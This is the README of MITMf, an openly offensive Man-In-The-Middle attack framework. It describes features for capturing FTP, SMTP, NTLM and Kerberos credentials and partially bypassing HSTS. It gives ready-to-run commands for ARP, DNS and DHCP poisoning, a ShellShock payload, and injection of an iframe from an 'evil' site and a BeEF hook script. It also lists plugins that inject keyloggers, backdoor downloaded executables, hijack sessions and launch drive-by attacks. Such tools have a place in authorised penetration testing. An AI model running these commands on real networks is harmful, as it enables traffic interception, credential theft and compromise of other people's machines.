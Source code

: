 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
![Latest Version](https://img.shields.io/badge/mitmf-0.9.8%20--%20The%20Dark%20Side-red.svg)
![Supported OS](https://img.shields.io/badge/Supported%20OS-Linux-yellow.svg)
[![Code Climate](https://codeclimate.com/github/byt3bl33d3r/MITMf/badges/gpa.svg)](https://codeclimate.com/github/byt3bl33d3r/MITMf)
[![Build Status](https://travis-ci.org/byt3bl33d3r/MITMf.svg)](https://travis-ci.org/byt3bl33d3r/MITMf)
[![Coverage Status](https://coveralls.io/repos/byt3bl33d3r/MITMf/badge.svg?branch=master&service=github)](https://coveralls.io/github/byt3bl33d3r/MITMf?branch=master)

#MITMf

Framework for Man-In-The-Middle attacks

Quick tutorials, examples and developer updates at: https://byt3bl33d3r.github.io

This tool is based on [sergio-proxy](https://github.com/supernothing/sergio-proxy) and is an attempt to revive and update the project.

Contact me at:
- Twitter: @byt3bl33d3r
- IRC on Freenode: #MITMf
- Email: byt3bl33d3r@gmail.com

**Before submitting issues, please read the relevant [section](https://github.com/byt3bl33d3r/MITMf/wiki/Reporting-a-bug) in the wiki .**

Installation
============

Please refer to the wiki for [installation instructions](https://github.com/byt3bl33d3r/MITMf/wiki/Installation)

Description
============
MITMf aims to provide a one-stop-shop for Man-In-The-Middle and network attacks while updating and improving
existing attacks and techniques.

Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Features
========

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins, it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running, the changes will be passed down through the framework: this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning and WPAD rogue server support.

Active packet filtering/modification
====================================

You can now modify any packet/protocol that gets intercepted by MITMf using Scapy! (no more etterfilters! yay!)

For example, here's a stupid little filter that just changes the destination IP address of ICMP packets:

```python
if packet.haslayer(ICMP):
	log.info('Got an ICMP packet!')
	packet.dst = '192.168.1.0'
```

- Use the ```packet``` variable to access the packet in a Scapy compatible format
- Use the ```data``` variable to access the raw packet data

Now to use the filter all we need to do is: ```python mitmf.py -F ~/filter.py```

You will probably want to combine that with the **Spoof** plugin to actually intercept packets from someone else ;)

**Note**: you can modify filters on-the-fly without restarting MITMf! 

Examples
========

The most basic usage, starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface enp3s0:

```python mitmf.py -i enp3s0```

ARP poison the whole subnet with the gateway at 192.168.1.1 using the **Spoof** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1```

Same as above + a WPAD rogue proxy server using the **Responder** plugin:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --responder --wpad```

ARP poison 192.168.1.16-45 and 192.168.0.1/24 with the gateway at 192.168.1.1:

```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.2.16-45,192.168.0.1/24 --gateway 192.168.1.1```

Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

Enable LLMNR/NBTNS/MDNS spoofing:

```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):

```python mitmf.py -i enp3s0 --spoof --dhcp```

Same as above with a ShellShock payload that will be executed if any client is vulnerable:

```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

Inject an HTML IFrame using the **Inject** plugin:

```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

Inject a JS script:

```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

Start a captive portal that redirects everything to http://SERVER/PATH:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portalurl http://SERVER/PATH```

Start captive portal at http://your-ip/portal.html using default page /portal.html (thx responder) and /CaptiveClient.exe (not included) from the config/captive folder:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive```

Same as above but with hostname captive.portal instead of IP (requires captive.portal to resolve to your IP, e.g. via DNS spoof):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --use-dns```

Serve a captive portal with an additional SimpleHTTPServer instance serving the LOCALDIR at http://IP:8080 (change port in mitmf.config):

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --captive --portaldir LOCALDIR```

Same as above but with hostname:

```python mitmf.py -i enp3s0 --spoof --arp --gateway 192.168.1.1 --dns --captive --portaldir LOCALDIR --use-dns```

And much much more! 

Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..)

For a complete list of available options, just run ```python mitmf.py --help```

#Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transperently hijacks client sessions
- **BrowserProfiler**  : Attempts to enumerate all browser plugins of connected clients
- **FilePwn**          : Backdoor executables sent over HTTP using the Backdoor Factory and BDFProxy
- **Inject**           : Inject arbitrary content into HTML content
- **BrowserSniper**    : Performs drive-by attacks on clients with out-of-date browser plugins
- **JSkeylogger**      : Injects a Javascript keylogger into a client's webpages
- **Replace**          : Replace arbitrary content in HTML content
- **SMBAuth**          : Evoke SMB challenge-response authentication attempts
- **Upsidedownternet** : Flips images 180 degrees
- **Captive**          : Creates a captive portal, redirecting HTTP requests using 302
